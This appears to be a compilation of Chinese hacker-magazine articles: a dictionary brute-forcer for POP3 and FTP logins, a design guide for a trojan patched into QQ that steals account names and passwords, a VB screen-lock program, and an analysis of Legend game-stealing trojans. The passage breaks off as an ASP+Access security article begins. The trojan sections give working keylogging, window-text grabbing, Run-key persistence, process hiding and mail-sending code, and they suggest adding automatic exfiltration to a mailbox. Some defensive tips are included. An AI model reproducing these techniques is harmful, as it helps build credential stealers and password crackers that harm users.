accept() 调用被服务器用于接受任何从客户机 connect() 调用所引入的信息。必须明白的是，如果没有接受到连接这个函数将不返回任何值，它是这样定义的：

```c
#include <sys/types.h>
#include <sys/socket.h>
int accept(int sockfd, struct sockaddr *peeraddr, int addrlen)
```

除 peeraddr 指向发出连接请求的客户机的信息外，其他参数和 bind() 系统调用的相同。在信息引入的基础上，peeraddr 所指向的结构的域被填上相应的值。

除了以上几个 Socket 函数之外，还有几个函数读者可以通过实例自己来体会一下。我现在来介绍一下本文所用到的其他一些十分实用的函数：

- 1. **chop()**

调用语法 $chars = chop(var);

var 可为变量或数组，当 var 为变量时，最后一个字符被删除并赋给 $chars；当 var 为数组/列表时，所有元素的最后一个字符被删除，最后一个元素的最后一个字母赋给 $chars。当我们需要用字典进行密码的读取时，可以用这个函数将这一行的回车符删去。

- 2. 打开、关闭文件

语法为 open(filevar, filename)，其中 filevar 为文件句柄，或者说是程序中用来代表某文件的代号，filename 为文件名，其路径可为相对路径，亦可为绝对路径。例如：

```perl
open(FILE1, "c:/test.txt");
```

就是打开 c: 下的 test.txt 并储存在 FILE1 中。

#### 三、程序的原理

本文运用的是通过打开服务器字典、用户名字段、密码字典，然后一次读取每一行的内容，将所有的组合依次连接，如果连接成功，就加入成功的数组，并记录到新的文件中。比如，读取用户名为 zhangsan，密码为 zhangsan111，服务器为 pop.victim.com。则尝试用 zhangsan 这个账户登录服务器，如果能返回“+OK”字符，则表示该账号正确；通过反复读取文件中的内容，并进入循环过程，就可以达到密码破解的目的。

#### 四、程序注释



#### 五、程序的演示

我使用附录中的 pop3crack.pl，并将已知的一个正确组合，即正确的用户名、密码、服务器混合到列表中，并进行测试如下：开始扫描（图 1）：



图 1

扫到一个正确的账号（图 2）；扫描结束，记录文档（图 3）。

#### 六、附录文件说明

附录中有 pop3crack.pl，是用来破解 pop3 服务器的。ftpcrack.pl 则是用来破 ftp 服务器的。hackersword.pl 是受 lovehacker 的启发（那是 N 年前的事情了），编写的一个针对用户名生成字典的工具。如果你有一个用户名的字典，则不妨就用这个工具来生成密码字典，将用户名进行简单的改变就可以获得很好的破解效果。其原理是：将用户名作为数组，在每一个用户名后面依次添加如：1、12、123 等等的数字，或者将用户名与用户名相加。这样配合前两个工具，就可以实现“简单密码扫描”的功能了！

### 嵌入式木马设计

#### 理论及实现（下）

#### 十一、函数具体参数的汇编形式的获取

虽然我们知道了函数原型及其参数，但我们得到的是 C++ 语言形式的函数原型及其参数，这对我们来说没有多少价值，因为使用嵌入式编程的首选语言应该是汇编语言，因此，我们必须得到使用汇编语言形式的函数及其参数。

为了得到汇编语言形式的函数及参数，我们可以用 C++ 语言写一个程序，再用调试器或反编译器得到其汇编形式即可。为此，我设计了如下 C++ 代码（在 VC++ 6.0 中通过编译）：

```cpp
#include <windows.h>
void main()
{
    static HANDLE hFile;
    DWORD dwWritten;
    LPCTSTR lpBuffer = "This is the string that will be written to the file.";
    hFile = CreateFile("FILE.DAT", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    SetFilePointer(hFile, 0, NULL, FILE_BEGIN);
    WriteFile(hFile, lpBuffer, strlen(lpBuffer)+1, &dwWritten, NULL);
    CloseHandle(hFile);
}
```





用 VC++ 6.0 编译后，再用 TRW2000 调试器拦截相应的 Windows API 函数，得到如下汇编形式。

```asm
PUSH        0
PUSH        2
PUSH        4
PUSH        0
PUSH        0
PUSH        C0000000
PUSH        "FILE.DAT" 字符串存放的地址
CALL        CreateFile（按照从右到左的顺序压入堆栈）
PUSH        2
PUSH        0
PUSH        0
PUSH        文件句柄
CALL        SetFilePointer
PUSH        0
PUSH        65FDF0（在不同的程序中此值不同）
PUSH        35
PUSH        写入的数据存放的位置
PUSH        文件句柄
CALL        WRITEFILE
PUSH        文件句柄
CALL        CLOSEHANDLE
```

到此为止，我们已经得到了代码的汇编形式，如果我们要求得到创建隐藏文件的汇编代码，则只需要修改以上 C++ 语言形式中的 FILE_ATTRIBUTE_NORMAL 为 FILE_ATTRIBUTE_HIDDEN，再将其编译反汇编即可。

请注意：如此得到的代码并不是最终我们需要的代码，因为此代码中含有部分地址定位代码，如 CALL XXXX，其 XXXX 是通过使用内存重定位技术得到的。因此，所有诸如 CALL XXXX 的指令都是无效的，要获得有效的 CALL XXXX 指令，只有调试某软件本身的源程序，在源程序中获取其定位用的内存地址（此地址存放的是真正要调用的程序代码段地址）。

#### 十二、编程思维

在学习了以上相关知识后，我们可以开始动手编写程序了。

到此为止，我们已经找到了执行点，这个执行点的逻辑意义是获得我们写入的用户名及密码。此时，我们就要考虑替换掉调用这个函数以后的代码，让它在我们的控制下将此函数所得到的用户名及密码交给我们，我们在得到用户名及密码后必须调用相关文件操作函数，将我们得到的用户名及密码保存到文件（即记录下得到的数据）。

换句话说，这个执行点的逻辑意义是获得我们写入的用户名及密码。这时，我们就要考虑替换掉调用这个函数以后的代码，让它在我们的控制下将此函数所得到的用户名及密码交给我们。我们在得到用户名及密码后必须调用相关文件操作函数，将我们得到的用户名及密码保存到文件（即记录下得到的数据）。

我们可以考虑用跳转指令来替换原指令，使其工作流程转向。在处理完保存数据的事件后，我们必须使用跳转指令，将其工作流程转回。

在此过程中必须还原被我们替换的代码，这样才能保证源程序的运行逻辑不被更改。在我们调用的相关文件操作函数及插入的新代码中，如包含有更改寄存器、存储器、堆栈、标志寄存器等可能破坏程序运行环境的指令，则我们必须保存相关的环境参数，以备还原。

#### 十三、编写程序时遇到的困难及解决办法

- 1. 我们必须使用手工方式编译代码。因为我们没有现成的编译器能完成此项编译工作，现有的编译器将代码编译得过大，不适于嵌入操作，因此，我们必须借助 HIEW 黑客软件来编译代码。  
  我们可以将代码输入，此时编译器产生的代码为 16 位代码，且有 66H 或 67H 的前缀，我们去掉前缀，保留余下部分，就是我们需要的 32 位代码。这是因为，在保护模式下运行的程序是按 16 位方式运行，还是按 32 位方式运行，主要要看其段属性，其段属性为 16 位则按 16 位方式运行，其段属性为 32 位则按 32 位方式运行。

- 2. 在编程的时候需要注意，不要使用绝对地址指令。这相对来讲比较难把握，通常需要实践再实践来检验你的指令中是否含有绝对地址指令。绝对地址产生的原因是由于调试指令时，我们看到的都是绝对地址（相对于这台机器来讲），这些地址在换一台机器或更换操作系统版本后通常都不能用（此处的不能用是指逻辑上的不能用，是指它已经不是我们要求的地址，但在物理上这个地址却是存在并能使用的）。如用户名保存的地址就属于这类地址，在这台机器上的用户名存放地址，换一台机器就可能不是用户名存放地址，如果我们用这个地址作为写用户名到文件时的数据存放点，则换一台机器就可能得不到正确的用户名，而只是一堆乱码。  
  解决这类问题的方法是重新跟踪指令，找到其相对地位地址，使用相对地位地址来编写指令。

- 3. 要注意权限问题。在 Windows 保护模式下，应用程序处于最低层，没有多少权利，因此，这个问题尤其重要，稍不注意就会引发非法操作。以我目前取得的经验来看，非法操作的产生主要是由于越权访问引发的。你可能会说，错误的指令逻辑也会引发。但这只是表面现象，错误的指令在执行时通常会跳转到不可预知的地址，指令执行地址一旦变动就使得指令发生改变，改变了的指令在访问了其无权访问的内存后就触发了内存越界错误。  
  倘若应用程序切换到了核心态，则越权访问的问题将变得更加严重，这时，应用程序有足够的权利访问、修改任何内存，一旦操作系统内存区域被其修改，则可能引发诸如死机、重启甚至格式化硬盘等严重危害系统安全的问题。在这种情况下不会有任何的警告窗口弹出，因此，这时的越界访问问题就显得尤为重要！  
  解决办法是不允许被修改的部分切换到核心态操作，并使用 Windows API 函数调用，因为 Windows API 函数运行于核心态且它包含的代码经过验证是基本正确的，一旦越权访问了内存也不会引发非法操作。更重要的是使用它不会使操作系统内存被改写，因为它会识别内存读写权限，一旦没有写的权限则不会改写内存，同时不产生非法操作，仅仅是通过寄存器返回失败代码。  
  如在 QQ 盗号木马的代码设计中，我遇到了一个需要读取内存时发生内存非法访问错误。当时，我试用了多种方法都不能成功解决，但此处是必须访问的内存，否则就盗不到新注册的用户名及密码，因此，我提出使用 Windows API 函数调用来解决的方案（因为 API 函数运行于特权级）。当时使用的是 LSTRCPY 函数调用，想将内存中的数据拷贝出来，使用此函数调用后，发现在 400000H~401000H 这段空间（属于 PE 文件头映像空间）内同样没有写权限（在代码段的其他位置也找不到可以写入的空地址，数据段又不敢随便改写，哪怕有 0 的空地址），但却没有引发非法操作。  
  针对这种情况，我又提出堆栈写入方式。我们知道，任何代码都有权访问自己的堆栈段，同时可以读写堆栈。因此，我使用堆栈试了一下，发现效果很好。但使用堆栈有两个问题要注意：首先，必须注意堆栈数据的保护。我们写堆栈时必须注意写入的长度不应该超过堆栈的栈顶，即我们应该将数据写到堆栈的外面，不能使写入的数据覆盖堆栈中原有的数据；同时必须在数据被更改前使用写入的数据，因为数据在堆栈的外面是不受保护的。其次，必须注意写入数据长度的控制问题。对于 LSTRCPY 函数是很难控制其写入数据的长度的，因为它是以 0 为结束标志，而数据时时都在变化，谁也说不清使用这个函数拷贝数据段中的数据的最长长度到底会有多长（对数据段而言，数据时时都可能发生改变，因此数据的长度时时都可能变更），倘若超过了我预留的空间，则会造成堆栈缓冲区溢出错误。  
  因此，我又找到了 ReadFile、WriteFile 两个系统调用，对于这两个调用来说，我们可以控制其读出、写入的数据的长度，因此在我的设计中使用的是这两个函数进行内存数据盗取！

- 4. 要注意必须建立盗取标志，不要重复执行盗取指令。在测试中我发现，不建立盗取标志的测试木马用不了多久就会引发非法操作，通过对盗取文件的分析，我发现引发非法操作后的文件必然有一堆乱码。这说明，在程序正常运行过程中，又运行到存有盗取指令处，同时，盗取指令越权访问了内存。我设计的盗取木马中对内存的定位是使用相对定位方式定位的，也就是所谓的二级指针方式。我通过指针定位指针，然而指针内的指针地址是可以被修改的。在指针被修改情况下访问很可能会引发非法操作，因此，我们必须建立一个标志表示已经盗取了用户名及密码，无需重复盗取。只要盗取过就不再盗取了，这样，无论指针被怎样修改都不会引发任何问题。  
  现在的问题在于如何建立盗取标志。我们知道我们无法写任何除了堆栈以外的内存区域。如果我们把标志建立在堆栈中，则有可能破坏堆栈的运行逻辑，使程序引发非法操作；更大的可能是根本无法保存此数据，因为堆栈的大小时时都在改变，我们无法在堆栈中找到一个相对不变的地址来存放数据。  
  为此，我提出文件解决方案。我们可以建立标志文件，一旦发现文件存在，则表示已经盗取过数据了，没有发现则盗取数据并建立标志文件。在程序开始或结束时应该删除该标志文件，以防止错误的判断。

- 5. 必须注意跳转指令的写入问题。我们写入跳转指令时通常没有计算出每条指令的位置，通常使用的是逻辑符号来标记要跳转的位置。因此，我们在不知道跳转的具体位置时可以用 0 来代替，等到知道时，再改写 0 值即可。  
  在我们不知道条件跳转的具体长度时，我们可以估计其长度，如估计将超过 128 个就使用 16 位跳转指令，不会超过的就使用 8 位跳转指令；实在搞不清楚，则通通使用 16 位跳转指令。

#### 十四、编写指令时的一点忠告

我们编写汇编指令时，一定要记得留有空隙（用 90H 填充），最好是在两行内留 3 个左右的空隙。因为，对于这类复杂的程序没有人能一次编写成功。倘若你不留有空隙则很难修改你编写的指令，你可能要重新手工输入代码，这样会使你感到极不耐烦。

对于某些比较难理解的操作，最好在机器上用调试器来帮助你理解，如你执意自己用逻辑来推算，一来时间会拉得很长，二来很可能会推理错误。如堆栈内的数据交换操作，我自己曾经推理了半天都有问题，在机器上一调试就很容易理解并找出解决方案。

对于在逻辑上似乎没有问题却又引发非法操作的程序，排错工作应该从堆栈的平衡找起。通常这类问题都是由于堆栈不平衡引发的，这就要求你必须严格审查每一次进栈及出栈操作，尤其是在存在有分支情况时的堆栈操作，通常可能是由于在某一个分支中没能平衡堆栈操作引发的。

必须注意程序运行环境的保持。我们必须保证插入的指令不修改程序用到的寄存器、存储器、堆栈、标志寄存器等可能引发程序运行环境发生改变的环境变量。在我们插入的代码必须修改其中的某一项时，我们必须保存这一项的数值，以备还原。

#### 代码实现篇



#### 对程序的改进建议

目前，这个木马程序不能识别重复的 QQ 号码，由此将造成 QQ 号码重复盗取，从而使数据产生冗余。因此，我建议在写入 QQ 号码及密码时应该加入校验代码，检查是否有重复 QQ 号码（注意：不能只检查是否有 QQ 号码的重复，要考虑到可能会有输入密码错误的情况，因此应该检查是否有 QQ 号码及密码的重复），以此来最大限度地消除数据冗余现象。

再有就是目前这个木马没有自动发回功能，每次盗取需要从机器上盗取，这太麻烦了，因此，建议加入自动发回指定邮箱的功能。

#### 木马防御

此类木马相对来说较难防范，但也不是完全无力抵御。对网吧用户来说，要通过禁止下载文件来防止他人恶意种植木马；对腾讯公司来说，至少有两种方法可以抵御这种木马：

- 1. 在程序源代码中加入检测文件校验码的代码，一旦文件校验码被更改，则弹出警告窗口并结束文件运行。

- 2. 针对此类木马的运行机理，破坏其运行条件。因其在指令定位上使用的是绝对地址定位指令，可以通过使用指令变异技术使其定位指令失效（指令一旦变异则其长度可能发生变化，但在逻辑上指令却没有任何更改，在长度发生变化的情况下，其下条指令地址必将发生变化，倘若使用的是绝对地址定位或相对当前指令的偏移地址定位，都将使其指向的地址不符合逻辑，同时必将更改其以后的所有代码，使程序执行非法操作），来达到防范的目的。

### 遭封锁才发现：定时锁定系统（下）

文／刘壹

在上期，虽然我们已经创建了窗体，但还没有写事件驱动代码。这一期我们将要填写完驱动代码，完成我们的程序。在此我们利用了类模块，这正是 VB 面向对象编程语言的体现。

在 VB 的工程资源管理器中，在我们的工程上点右鼠标键，添加我们的类模块（WindowsPB）。

本类模块各个过程是为了锁定 Windows 9x/2K，读者们可以把它孤立出来，使用在自己的作品中。

在 WindowsPB 内写下如下的代码：

```vb
' Val 函数是把字符串转换为数字
锁定窗口.Show
' 呼叫锁定窗口
Unload Me
' 退出本窗口
End Sub
```

而锁定系统时弹出的窗体的代码如：

其中用到 SetWindowPos 这个函数，它能为窗口指定一个新位置和状态。它也可改变窗口在内部窗口列表中的位置。该函数与 DeferWindowPos 函数相似，只是它的作用是立即表现出来的。HWND_TOPMOST——将窗口置于列表顶部，并位于任何最顶部窗口的前面；SWP_SHOWWINDOW——显示窗口，详细见代码内容。

我们在一个是密码激活时间的输入窗体中加入代码如下：

```vb
Option Explicit

Private Sub cmdCancel_Click()
    Unload Me
    ' 如果点取消，退出本程序！
End Sub

Private Sub cmdOk_Click()
    Passy = Text3.Text
    SetTime = Val(Text4.Text)
```

#### 四、编译并运行程序

按 F5 键或单击 Visual Basic 工具栏中的运行按钮，编译并运行程序。效果如：这一个窗体是密码激活时间的输入窗体（图4），锁定系统时弹出的窗体（图5）。

本程序在 C500 +128MB +20G 下运行成功，因为是最初的代码，没有进行优化，只是验证程序的可行性，必有不到之处，请读者多多原谅。希望读者能在我所提供程序基础上对 VB 和汇编编程有所提高，欢迎读者能同我联系探讨。

### 从编程角度分析传奇木马

文／王丽文

自从《传奇》于 2002 年 10 月进入我国内地网络游戏市场后，日渐风靡，玩家与日俱增。但与此同时也出现了一些被称为传奇木马的恶意软件，比如传奇剥皮精灵盗、传奇黑眼睛等等。这类软件虽然工作原理有所不同，但都被设计得具有窃取游戏账号及密码的功能，不少玩家因此丢失了密码不说，更重要的是损失了宝贵的时间和心血。所谓知己知彼，方能百战不殆。为了能更好地认识并防范这类软件，本文将从编程的角度揭露其工作原理及相应的对付手段。但请各位读者切勿用来恶意破坏。

我们首先谈谈键盘记录型的传奇木马。这类软件与一般的键盘记录软件大同小异，只不过在进行键盘记录之前，先使用一个名为 FindWindow 的 API 函数判断传奇是否在运行，如果是的话，启动键盘记录功能，否则不动作。FindWindow 的 VB 声明如下：

```vb
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" _
    (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

它可以用来返回符合指定类名（lpClassName）或窗口名（lpWindowName）的窗口句柄。

实现键盘记录这个功能时，大多数人想到的应该是使用钩子技术，HOOK 用户的击键行为。其实除此之外，还有一个 API 函数，同样可以轻松进行键盘记录：GetAsyncKeyState。这个函数根据虚拟键表判断按键类型。返回值为一个 16 位的二进制数，如果被按下则最高位为 1，即返回 -32767，声明如下：

```vb
Private Declare Function GetAsyncKeyState Lib "user32" Alias "GetAsyncKeyState" _
    (ByVal vKey As Long) As Integer

' 例程：
Dim aKey As Integer
Dim keyResult As String
keyResult = GetAsyncKeyState(13)   ' 获得键盘状态
If keyResult = -32767 Then
    aKey = "Enter"
End If
```

这类击键记录型传奇木马虽然能丝毫不差地记录传奇玩家在游戏中的所有击键行为，但往往需要对庞大的记录文件进行仔细分析才可能找到账号和密码，非常费时费力。对付这种软件的方法也非常简单：输入游戏 ID 和密码时，先随意输入 200 个字符，然后再清空输入框，输入你的正确信息。这样即使有人得到了你的击键记录文件也不必担心，二三年内估计他都翻不出你的正确 ID 和密码！

另一种传奇木马的工作原理则与上述完全不同，其核心是使用了一个功能强大的 SendMessage 函数，在其他 API 函数的配合下，直接抓取玩家输入的游戏账号和密码！相关函数声明如下：

```vb
Private Declare Function FindWindowEx Lib "user32" Alias "FindWindowExA" _
    (ByVal hWnd1 As Long, ByVal hWnd2 As Long, ByVal lpsz1 As String, ByVal lpsz2 As String) As Long

Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" _
    (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long

Private Declare Function GetWindow Lib "user32" _
    (ByVal hwnd As Long, ByVal wCmd As Long) As Long

Private Const WM_GETTEXT = &HD
Private Const WM_GETTEXTLENGTH = &HE
Private Const GW_HWNDNEXT = 2
```

下面给出一段代码，演示如何抓取传奇所在服务器、游戏账号、密码，这部分是核心，由于代码较长，请大家看光盘所附文件：

以上代码实现了简单的抓取功能，但只能在 Windows 9x 下运行，Windows NT/2000 中禁止不同的进程间相互访问数据，需要用到其他 API 创建一个数据共享才行。

对于这类软件的防范，对于一般玩家来说比较难做到。最好的办法是在传奇客户端软件中加入一段程序，当用户输入数据时，判断是否有其他窗体向账号密码框发送消息，并做相应处理，即对 SendMessage 进行防范。这类型的代码在网上有很多，而且编写传奇的韩国程序员们想必也非等闲之辈，在下就不班门弄斧了。

以上是对各类传奇木马核心功能的解析，接下来我们看看它的其他功能。

### 1. 开机自动运行

```vb
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" _
    (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
Private Declare Function RegCloseKey Lib "advapi32.dll" _
    (ByVal hKey As Long) As Long
Private Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" _
    (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, _
    ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long

Const REG_SZ = 1
Const HKEY_LOCAL_MACHINE = &H80000002

FileCopy "test.exe", "c:\windows\system\test.exe"
Dim ne As String
Dim na As String

SetMyValue HKEY_LOCAL_MACHINE, "SoftWare\Microsoft\Windows\CurrentVersion\Run", _
    "wing", "c:\windows\system\test.exe"   ' 键值

Sub SetMyValue(hKey As Long, strPath As String, strValue As String, strData As String)
    Dim keyHandle&
    Dim lResult As Long
    ' 以下是对注册表的操作
    lResult = RegCreateKey(hKey, strPath, keyHandle&)
    lResult = RegSetValueEx(keyHandle&, strValue, 0, REG_SZ, ByVal strData, Len(strData))
    lResult = RegCloseKey(keyHandle&)
End Sub
```

以上给出一段例程，通过修改注册表实现开机自动运行。但本人也不能保证每种软件都是通过这种方法来实现的，也可能是修改 Autoexec.bat、winstart.bat、win.ini，甚至是动态加载 DLL 文件。

### 2. 隐藏

这里是指不出现在任务栏列表中，Windows 9x 中的实现代码如下：

```vb
Private Declare Function GetCurrentProcessId Lib "kernel32" () As Long
' 这个函数可以获得当前进程一个唯一的标识符。

Private Declare Function RegisterServiceProcess Lib "kernel32" _
    (ByVal dwProcessID As Long, ByVal dwType As Long) As Long
' 这个函数可以将进程 ID 号为 dwProcessID 的进程注册或取消注册为“服务器”。

' 所用常量：
' 这里的常量也就是 dwType 的值。
Const RSP_SIMPLE_SERVICE = 1

Dim pid As Long, reserv As Long
' 获取当前进程 ID
pid = GetCurrentProcessId()
' 注册为服务器
regserv = RegisterServiceProcess(pid, RSP_SIMPLE_SERVICE)
```

最后是自动邮件发送功能，方法有很多，可以利用 VB 自带的 MAPI 控件、API 或第三方控件。

以 MAPI 控件单独发送邮件为例：

```vb
MAPISession1.SignOn
With MAPI_Message1
    .MsgIndex = -1
    .RecipDisplayName = "test"
    .MsgSubject = "test2"
    .MsgNoteText = "test3"
    .SessionID = MAPISession1.SessionID
    .Send   ' 发送
End With
```

将以上各部分代码融合，即具有了一个传奇木马的基本功能。本文给出相关代码，只是希望各位能清楚地了解它的工作原理，做到更好的防范。

### 基于 B/S 模式的 Access 数据库系统安全隐患及入侵防范

文／王廷永

#### 1．前言

基于 Browser/Server 模式的 ASP+Access 数据库系统由于其结构简单、使用维护方便而成为许多中小型企业开发网上应用系统的首选方案。但 ASP+Access 系统在为我们带来便捷的同时，也带来了不容忽视的安全问题。本文就 ASP+Access 开发的应用系统存在的安全问题从几个方面进行了探讨，并提出了相应的解决方案。

随着 Internet 应用的不断发展，许多单位内部都建立了局域网或在 Internet 上建立了自己的网站，并开发了一系列的网上应用系统。由于 Browser/Server 模式的 ASP+Access 数据库系统结构简单、执行效率高、使用维护方便等特点而成为许多中小型企业开发网上应用系统的首选方案。但 ASP+Access 数据库系统在为我们带来便捷的同时，也带来了不容忽视的安全问题。本文的后续篇幅着重对基于 ASP+Access 模式开发的应用系统存在的安全问题进行了探讨，并提出了相应的解决方案。

#### 2．ASP+Access 数据库系统的安全隐患

##### 2.1 Access 数据库的存储隐患

